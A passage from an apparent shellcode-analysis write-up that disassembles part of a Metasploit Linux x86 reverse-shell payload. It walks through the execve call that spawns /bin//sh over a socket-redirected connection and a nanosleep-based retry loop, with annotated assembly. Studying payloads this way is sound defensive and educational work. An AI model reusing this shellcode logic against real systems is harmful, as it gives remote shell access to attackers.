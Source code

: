 ```nasm
                            ; 2nd argument of execve(): argv
                            ;   array of pointers to strings (command-line arguments)
0000007B  89E1              mov ecx,esp

                            ; call execve() syscall
0000007D  B00B              mov al,0xb
0000007F  CD80              int 0x80
```

As for the second assignment, once the shellcode correctly redirected `stdin`, `stdout`, and `stderr` to the file descriptor of the server socket (a Metasploit handler to be specific), it uses `execve` to spawn the reverse shell.

In this case it uses the shell `/bin//sh`, as the string occupies only `8 bytes`, but we could also replace it with `/bin/bash`.

If the shellcode can't connect to the remote server, then it jumps to the address `00000082`, which is the start of a block of assembly instructions that call the syscall `nanosleep()` in order to sleep for `10` seconds:

```nasm
                            ; I don't know why the use of this instruction.
                            ; Once the shellcode spawns a shell, the code of the program
                            ; should be replace, so it seems useless
00000081  C3                ret

                            ; clear EBX and push 0x00000000 to the stack
00000082  31DB              xor ebx,ebx
00000084  53                push ebx  

                            ; push the DWORD 0x0000000a to the stack
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp

                            ; call nanosleep()
0000008B  B0A2              mov al,0xa2
0000008D  CD80              int 0x80
```

The interesting fact about `nanosleep` is that it doesn't simply use a integer to determine how many seconds/nanoseconds to sleep, but it uses a `struct`. According to the [Linux manual](https://man7.org/linux/man-pages/man2/nanosleep.2.html), it is structured as follows:

```cpp
struct timespec {
    time_t tv_sec;        /* seconds */
    long   tv_nsec;       /* nanoseconds */
};
```
